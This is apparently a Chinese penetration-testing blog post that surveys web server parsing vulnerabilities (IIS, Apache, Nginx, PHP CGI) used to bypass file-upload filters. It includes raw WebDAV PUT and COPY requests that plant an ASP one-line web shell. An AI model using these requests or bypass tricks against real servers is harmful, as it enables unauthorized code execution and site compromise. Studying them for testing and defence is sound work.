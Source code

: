 +++
date = "2016-07-20T16:08:17+08:00"
description = ""
draft = false
tags = ["文件上传"]
title = "文件上传之解析漏洞"
topics = ["Pentest"]

+++

### 0x00 解析漏洞
```
文件上传漏洞通常与Web容器的解析漏洞配合利用
常见Web容器有IIS、Nginx、Apache、Tomcat等
```

### 0x01 IIS解析漏洞
IIS6.0在解析文件时存在以下两个解析漏洞
```
1、当建立*.asp、*.asa格式的文件夹时，其目录下任意文件都会被iis当作asp文件来解析。
2、当文件名为*.asp;1.jpg时，IIS6.0同样会以ASP脚本来执行。
```
WebDav漏洞
```
    WebDav是一种基于HTTP1.1协议的通信协议，它扩展了HTTP协议。在开启WebDav后若
支持PUT、Move、Copy、Delete等方法，就会存在安全隐患。

测试步骤如下：
    1）通过OPTIONS探测服务器所支持的HTTP方法
    请求：
    OPTIONS / HTTP/1.1
    Host: www.xxxx.com
    2)通过PUT方法向服务器上传shell
    请求：
    PUT /a.txt HTTP/1.1
    Host: www.xxxx.com
    Content-Length: 30

    <%eval request("chopper") %>
    3)通过Move或Copy方法改名
    请求：
    COPY /a.txt HTTP/1.1
    Host: www.xxxx.com
    Destination: http://www.xxxx.com/cmd.asp
    4)用DELETE方法删除文件
    请求：
    DELETE /a.txt HTTP/1.1
    Host: www.xxxx.com

注：可用桂林老兵的IIS Write快速探测服务器是否存在WebDav漏洞
```

### 0x02 Apache解析漏洞
```
在Apache 1.x和Apache 2.x中存在解析漏洞。

Apache在解析文件时有一个原则，当碰到不认识的扩展名时，将会从后向前解析，
直到碰到认识的扩展名为止，如果都不认识，则会暴露其源代码。
如：1.php.rar.sa.xs就会被解析为php，可以据此来绕过文件名限制

Apache版本在2.4.0到2.4.29存在CVE-2017-15715解析漏洞，可利用换行来绕过上传，问题出在$上，
上传的文件名为php1，抓包改hex，将1改为0a这个换行即可绕过
<FilesMatch \.php$>
        SetHandler application/x-httpd-php
</FilesMatch>

可以在Apache安装目录下的文件"/conf/mime.types"中配置Apache可以识别的文件名
```

### 0x03 Nginx解析漏洞
```
对低版本的Nginx可以在任意文件名后添加%00.php进行解析攻击
如：上传图片xx.jpg，然后通过改名为xx.jpg%00.php就会解析为php
```

### 0x04 PHP CGI解析漏洞
```
当php的配置文件中的选项cgi.fix_pathinfo = 1开启时，当访问http://www.xxx.com/x.txt/x.php
时，若x.php不存在，则PHP会递归向前解析，将x.txt当作php脚本来解析

IIS7.0/7.5中：任意文件名/任意文件名.php就会被解析为php
Nginx中：任意文件名/任意文件名.php就会被解析为php
```

